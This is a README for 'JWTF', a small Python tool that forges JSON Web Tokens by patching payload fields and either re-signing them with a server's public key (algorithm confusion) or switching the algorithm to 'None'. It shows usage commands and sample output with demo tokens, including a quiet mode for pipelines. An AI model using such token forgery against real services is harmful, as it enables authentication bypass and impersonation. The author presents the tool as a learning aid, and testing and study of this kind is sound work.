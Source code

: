 # JWTF?!  
  
JWTF was built to help me further understand some funky attacks against JSON Web Tokens. So far this tool will take an existing JWT and allow the payload to be modified either dynamically (within an interactive shell - default), or automatically by supplying the choice and forcing it to run in one-liner mode.
  
## Modes:  
  
0: Runs all  
1: Allows patching and resigns target JWT with provided public key   
2: Allows patching and rebuilds JWT with None algorithm  

## Options:
  
```
usage: jwtf.py [-h] [--ol] [--quiet] {0,1,2} ... jwt

positional arguments:
  {0,1,2}
  jwt         The server supplied JWT

optional arguments:
  -h, --help  show this help message and exit
  --ol        Run in one-liner
  --quiet     Surpress debug prints and output noise
```
  
Interactive Usage (Mode = 1):  
```
python3 jwtf.py 1 --key="test.pub" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [1] Resign with public key

[*] Loading public key from: test.pub
lol

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] JWT is already HS256
	Header: {'alg': 'HS256', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1  
New value for name (type: <class 'str'>): Terry
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Terry : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Terry', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlRlcnJ5IiwgImlhdCI6IDE1MTYyMzkwMjJ9.R5y0MxNrDDg6c-6X-6iMLP4wtObZmw3vrogjpOzGCLA
----------------------------------
```
  
Interactive Usage (Mode = 2):  
```
python3 jwtf.py 2 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1
New value for name (type: <class 'str'>): Susan
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Susan : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Susan', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlN1c2FuIiwgImlhdCI6IDE1MTYyMzkwMjJ9.
----------------------------------
```
  
One-liner Usage (Mode = 2):  
```
python3 jwtf.py 2 --choices="name:jeff" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5" --ol
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'jeff', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogImplZmYiLCAiaWF0IjogMTUxNjIzOTAyMn0.
----------------------------------
```
  
## Quiet mode for pipeline usage  
  
Usage:
```
gary@MacBook-Air JwtTheFuck % python3 jwtf.py 2 --choices="name:jeff" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5" --ol --quiet
```
  
Output:
```
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogImplZmYiLCAiaWF0IjogMTUxNjIzOTAyMn0.
```